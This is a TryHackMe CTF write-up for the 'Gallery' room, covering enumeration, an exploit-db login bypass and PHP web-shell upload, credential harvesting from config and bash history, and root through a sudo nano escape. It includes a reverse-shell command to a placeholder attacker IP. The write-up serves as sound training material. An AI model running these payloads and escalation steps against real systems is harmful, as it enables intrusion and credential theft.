 ```yaml
---
title: "Gallery"
date: 2025-01-30
image: /assets/img/tryhackme/Gallery/Gallery_image.jpg
description: Writeup of the TryHackMe-CTF Gallery
categories: [TryHackMe, Easy]
tags: [linux, privesc, web, enumeration, rce]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Gallery</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Try to exploit our image gallery system</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/gallery666">https://tryhackme.com/r/room/gallery666</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Gallery.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.180.20                                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:17 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,8080 10.10.180.20
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:18 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.045s latency).
  
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  | http-open-proxy: Potentially OPEN proxy.
  |_Methods supported:CONNECTION
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: Simple Image Gallery System
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis
I found an Apache default page, but found nothing in the source code, so I continued with the directory enumeration:
```bash
$ gobuster dir --url http://10.10.180.20/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.180.20/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /gallery              (Status: 301) [Size: 314] [--> http://10.10.180.20/gallery/]

```

The directory `/gallery` showed a Login screen. With the name of the CMS I found an <a href="https://www.exploit-db.com/exploits/50214">exploit-db</a> entry which can get me remote code execution. The exploit code shows how to bypass the login, but after logging in this didn't reveal anything.

![Dashboard](/assets/img/tryhackme/Gallery/thm_gallery_1.jpg)

```bash
$ python3 exploit.py
TARGET = http://10.10.180.20/gallery              
Login Bypass
shell name TagoenmcpbdzviklgpmLetta

protecting user

User ID : 1
Firstname : Adminstrator
Lastname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.180.20/gallery/uploads/1738236540_TagoenmcpbdzviklgpmLetta.php?cmd=whoami

```
![Remote Command Execution](/assets/img/tryhackme/Gallery/thm_gallery_2.jpg)

I was able to get a reverse shell shell:
```html
...?cmd=busybox nc [atacker ip] 9001 -e sh
```
After performing some shell stabilization I started searching for database credentials and found a file called `initialize.php`:
```php
<?php
  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'[removed]','last_login'=>'','date_updated'=>'','date_added'=>'');

  if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
  if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
  if(!defined('dev_data')) define('dev_data',$dev_data);
  if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
  if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
  if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"[removed]");
  if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

With the credentials I was able to access the MySql database:
```bash
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p

MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | gallery_db         |
  | information_schema |
  +--------------------+
  2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
	Database changed

MariaDB [gallery_db]> show tables;
  +----------------------+
  | Tables_in_gallery_db |
  +----------------------+
  | album_list           |
  | images               |
  | system_info          |
  | users                |
  +----------------------+
  4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users; 
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  | id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  |  1 | Adminstrator | Admin    | admin    | [removed]                        | uploads/1738236540_TagoenmcpbdzviklgpmLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2025-01-30 11:29:27 |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```

## Privilege Escalation mike

After searching around a bit I found a backup of the bash history at this path `/var/backups/mike_home_backup/.bash_history`. In the file I found the following:
```bash
$ cat .bash_history
  cat .bash_history
  cd ~
  ls
  ping 1.1.1.1
  cat /home/mike/user.txt
  cd /var/www/
  ls
  cd html
  ls -al
  cat index.html
  sudo -l[removed]
  clear
  sudo -l
  exit
```

This looks like mike's credentials, so I changed the user:
```bash
mike@gallery:~$ su mike
  su mike
  Password: [removed]

mike@gallery:~$ cat user.txt
	[*** removed ***]
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
mike@gallery:~$ sudo -l
  Matching Defaults entries for mike on gallery:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User mike may run the following commands on gallery:
      (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
We can execute the `bash` script as root. Let's analyse the bash script:
```bash
  #!/bin/bash

  read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

  # Execute your choice
  case $ans in
      versioncheck)
          /usr/bin/rkhunter --versioncheck ;;
      update)
          /usr/bin/rkhunter --update;;
      list)
          /usr/bin/rkhunter --list;;
      read)
          /bin/nano /root/report.txt;;
      *)
          exit;;
  esac
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/nano/">gftobins</a> gave me all I needed. We can insert `read` to get inside the nano command. From there we can get a shell.
```bash
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
  Would you like to versioncheck, update, list or read the report ? read
```
In `nano` press CTRL + R then CTRL + X and insert the command:

![nano privesc](/assets/img/tryhackme/Gallery/thm_gallery_3.jpg)

```bash
# whoami
  root
# cat /root/root.txt
  [*** removed ***]
```

solved! :)
